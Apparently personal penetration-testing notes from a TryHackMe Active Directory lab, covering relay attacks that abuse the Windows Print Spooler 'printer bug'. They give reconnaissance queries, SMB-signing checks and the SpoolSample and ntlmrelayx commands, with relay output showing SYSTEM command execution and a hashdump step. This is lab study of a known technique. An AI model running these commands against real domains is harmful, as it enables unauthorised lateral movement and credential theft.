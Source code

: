 --- ---

<h2>General</h2>

Automated relays with machine accounts refer to a method where a machine or program is able to automatically access and control other machines or programs on the same Active Directory (AD) network using a machine account. This can be a vulnerability because it allows the machine or program to potentially access sensitive information or perform unauthorized actions on other machines or programs without the knowledge or consent of their users. Additionally, if the machine account is compromised, an attacker could use it to gain access to other machines or programs on the AD network. To mitigate this vulnerability, proper access controls and monitoring should be in place to limit the actions that machine accounts can perform, and to detect and respond to any suspicious activity.


<h3>The Printer Bug</h3>
The printer bug is a "feature" of the MS-RPRN protocol (PrintSystem Remote Protocol), which allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address.

This vulnerability is related to automated relays because it allows a machine or program to remotely access and control another machine or program on the same AD network using a machine account and valid AD credentials.

- Conditions
	Therefore, to exploit this, apart from machine account administrative privileges, we also need to meet the following four conditions :
	
	1.  A valid set of AD account credentials.
	2.  Network connectivity to the target's SMB service.
	3.  The target host must be running the Print Spooler service.
	4.  The hosts must not have SMB signing enforced.  
	    
	
	Condition 1 and 2 have been met already. The only two we need to ensure works are conditions 3 and 4.

---

<h2>Commands</h2>

<h3>Bloodhound</h3>
Bloodhound Custome Query (find instances where a computer has the "AdminTo" relationship over another computer)
```
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```


<h3>Printer Bug</h3>
Powershell (Query service (Win32_Printer) running on other machine in AD via WMI)
```
PS C:\> GWMI Win32_Printer -Computer MACHINE_DOMAIN

	Location      :
	Name          : Microsoft XPS Document Writer
	PrinterState  : 0
	PrinterStatus : 3
	ShareName     :
	SystemName    : THMSERVER2
	
	Location      :
	Name          : Microsoft Print to PDF
	PrinterState  : 0
	PrinterStatus : 3
	ShareName     :
	SystemName    : THMSERVER2
```
The output from the cmdlet verifies that the service is running. If we get an access denied error, you could perhaps attempt the PowerShell command of `Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc`


SMB Signing

In order to relay the coerced authentication attempt, SMB signing should not be enforced. It should be noted that there is a difference between SMB signing being allowed and SMB signing being enforced.

To verify that THMSERVER1 and THMSERVER2 do not have SMB signing enforced, we can use Nmap
```
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

	Nmap scan report for distributor.za.tryhackme.loc (172.31.1.201)
	Host is up (0.62s latency).
	
	PORT    STATE SERVICE
	445/tcp open  microsoft-ds
	
	Host script results:
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	
	Nmap scan report for 172.31.1.202
	Host is up (0.38s latency).
	
	PORT    STATE SERVICE
	445/tcp open  microsoft-ds
	
	Host script results:
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	
	Nmap done: 2 IP addresses (2 hosts up) scanned in 4.59 seconds
```
We can see that SMB signing is enabled but not enforced based on the output. This means all our conditions are met, and we can start the attack!


Exploiting Authentication Relays

We will be using [SpoolSample](https://github.com/leechristensen/SpoolSample) to exploit the authentication relay.  We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us on our machine and then [Impacket](https://github.com/SecureAuthCorp/impacket)'s [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication attempt THMSERVER1.

Setup NTLM relay (Attacking Machine)
```
python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```
If we specify the hostname of THMSERVER1 instead of the IP, the host could request that we use Kerberos authentication instead of NTLM

SSH session over the THMSERVER1 (Already own)
```
C:\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Local Attacker IP"
```

Output from the NTLM relay
```
thm$ python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 172.31.1.202, attacking target smb://172.31.1.201
[*] Authenticating against smb://172.31.1.201 as ZA/THMSERVER2$ SUCCEED
[+] No more targets
[*] SMBD-Thread-7: Connection from 172.31.1.202 controlled, but there are no more targets left!
[+] No more targets
[*] SMBD-Thread-8: Connection from 172.31.1.202 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[+] ExecuteRemote command: %COMSPEC% /Q /c echo whoami /all ^> %SYSTEMROOT%\Temp\__output > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[*] Executed specified command on host: 172.31.1.201

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   
[...]
```
This output resembles what would happen if you used the `-c 'whoami /all'` command. However by specifying no command, you should now have performed a hashdump. These credentials can now be used to get a shell on the host!